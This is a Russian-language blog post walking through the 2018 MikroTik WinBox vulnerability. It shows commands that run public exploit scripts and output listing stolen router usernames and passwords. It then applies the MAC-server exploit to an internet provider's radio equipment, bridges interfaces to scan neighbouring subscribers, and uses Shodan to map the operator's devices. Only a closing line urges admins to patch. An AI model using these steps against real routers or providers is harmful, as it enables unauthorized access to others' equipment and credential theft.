 ---
title: "Mikrotik WinBoxExploit изучаем оператора радио-доступа."
date: 2018-12-05 09:52:51 +0000
categories:
  - Mikrotik
tags:
  - mikrotik
  - winbox
  - exploit
 ---

Первая новость о взломе на сайте Mikrotik  появилась 25 марта 2018 г. 
https://blog.mikrotik.com/security/winbox-vulnerability.html (update 9th Oct, 2018 New Exploit )

В ней говорится что уязвимость  обнаружена в версиях:

*Affected all bugfix releases from 6.30.1 to 6.40.7, fixed in 6.40.8 on 2018-Apr-23
*Affected all current releases from 6.29 to 6.42, fixed in 6.42.1 on 2018-Apr-23
*Affected all RC releases from 6.29rc1 to 6.43rc3, fixed in 6.43rc4 on on 2018-Apr-23

На странице [https://github.com/BigNerd95/WinboxExploit](https://github.com/BigNerd95/WinboxExploit), выложен python скрипт взлома пароля к роутерам mikrotik.

Более подробно о методике выявления уязвимости рассказано на странице [https://n0p.me/winbox-bug-dissection/](https://n0p.me/winbox-bug-dissection/), ссылка есть на github у того же [BigNerd95](https://github.com/BigNerd95/WinboxExploit).

  Вероятно, можно построить свою ботнет сеть, с помощью  такой уязвимости и уже кто-то это сделал:  
  * На взломанных роутерах появились надписи HACKED FTP server, HACKED-ROUTER-HELP-SOS-WAS-MFWORM-INFECTED или HACKED-ROUTER-HELP-SOS-HAD-DEFAULT-PASSWORD ([см более подробно на сайте хакер](https://xakep.ru/2018/03/29/hajime-hunts-mikrotik/)).
  * Также есть герой с [https://habr.com/users/LMonoceros/](https://habr.com/users/LMonoceros/ )  который написал скрипт , который заблокировал эту уязвимость     и оставил доступ только из локальной сети [Для чего хакерам Микротик и как я спрятал 100 тыс. RouterOS от ботнета](https://habr.com/post/424433/) 

Для того что бы применить скрипт, нет ничего сложного: 
```bash
# python WinboxExploit.py  _ip_address_
```
результатом будет: 
{% highlight python %}
5.14.128.18
User: root
Pass:
User: admin
Pass:
User: admin
Pass: ddsER
User: create
Pass: WBCWGwewe
{% endhighlight %}

### Немножко усложним задачу:
-<s>Взломаем</s> Изучим оператора, который предоставляет вам радиодоступ, когда мы не знаем _IP address_ оборудования или если он не настроен . У нас есть только прямое подключение к клиентскому оборудованию, которое по радио подлючено к точке доступа оператора.

![]({{ site.baseurl }}/uploads/800-IMG_20160430_143159.jpg "пример подключения")

Данный exploit позволяет просканировать L2 сегмент сети и обнаружить mac адреса Mikrotik.
```bash
$ python MACServerDiscover.py
Looking for Mikrotik devices (MAC servers)
    aa:bb:cc:dd:ee:ff 
    aa:bb:cc:dd:ee:aa
```
После чего запускаем уже следующий скрипт.
```bash
$ python MACServerExploit.py aa:bb:cc:dd:ee:ff
User: admin
Pass: Th3P4ssWord
```

Дальше можно применить свои знания и умения по подключению через winbox, ssh,  telnet, к оборудониваю и узнать ssid security. Что даст нам вожможность заменить оконечное оборудование самостоятельно, к примеру при покупке более мощной абонентской точкой доступа.

Если оператор  не позаботился о безопасности, и не запретил _forwarding_ между абонентскими точками доступа, можно настроить bridge между ether1 и wlan1 и просканировать по mac адресам соседей/сектора.  
```bash
/interface bridge
add name=bridge1
/interface bridge port
add bridge=bridge1 interface=ether1
add bridge=bridge1 interface=wlan1
```
### Усложним задачу еще немножко:

Используя сервис [https://bgp.he.net](https://bgp.he.net), узнаем свой ip_address и prefixv4 своего оператора, проверим его на сервисе [https://shodan.io](https://shodan.io).
Введя  в строке поиска (_доступно после регистрации_)
```bash
mikrotik net:"5.140.28.0/19"
```
и получим:
![]({{ site.baseurl }}/uploads/shodan.png "результаты поиска")



### Sysadmin не забывай обновлять routeros , настривать правила доступа к оборудованию.
